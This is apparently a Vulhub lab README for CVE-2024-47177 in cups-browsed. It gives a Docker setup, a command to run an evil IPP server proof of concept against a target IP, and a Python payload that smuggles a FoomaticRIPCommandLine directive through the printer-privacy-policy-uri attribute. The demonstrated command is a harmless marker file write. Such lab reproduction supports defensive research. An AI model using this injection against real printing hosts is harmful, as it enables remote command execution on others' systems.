# OpenPrinting Cups-Browsed Remote Code Execution via The FoomaticRIPCommandLine PPD parameter (CVE-2024-47177)

[中文版本(Chinese version)](README.zh-cn.md)

OpenPrinting CUPS (Common Unix Printing System) is an open-source printing system developed for Unix-like operating systems. It allows computers to act as print servers, managing local and network printers efficiently. Cups-Browsed is a daemon that is part of the CUPS system, specifically designed to browse for remote printers shared by other CUPS servers on the network. It facilitates automatic discovery and configuration of network printers, making it easier for users to access and use shared printing resources across a network without manual setup.

In the version 2.0.1 and before of Cups-Browsed, there is an issue from improper handling of the `FoomaticRIPCommandLine` parameter in PPD (PostScript Printer Description) files. An attacker can exploit this vulnerability by creating a malicious IPP (Internet Printing Protocol) server that sends crafted printer information to a vulnerable Cups-Browsed instance, then execute arbitrary command on the system that vulnerable Cups-Browsed is running.

Reference:

- <https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/>
- <https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8>

## Vulnerable Environment

Execute the following command to start a CUPS server 2.4.7 and vulnerable cups-browsed 2.0.1:

```
docker-compose up -d
```

After the server is running, you can access the CUPS web interface via `http://<your-ip>:631`.

## Exploit

First, download the [evil-ipp-server](https://github.com/vulhub/evil-ipp-server) project and run the [poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py):

```
python poc.py [evil-ipp-server-ip] [target-ip]
```

This script will start a evil IPP server on the `[evil-ipp-server-ip]` and send a UDP packet to the vulnerable Cups-Browsed on the target machine which IP is `[target-ip]`.

Once the Cups-Browsed received the request, it will try to connect to the evil IPP server and retrive the crafted `printer-privacy-policy-uri` attribute, the payload structure likes following:

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

After that, Cups-Browsed will create a temporary PPD file in `/tmp/` and our payload will be injected in the file.

![](1.png)

At this time, the command haven't been executed, because we need at least one print job to trigger the execution of the command.

Print jobs can come from regular users or attackers. If TCP port 631 is open, we can use a browser to access it and find the malicious IPP server we just added, then create a "test page printing" job:

![](2.png)

Then you can see, the `echo 1 > /tmp/I_AM_VULNERABLE` command has been executed successfully.

![](3.png)
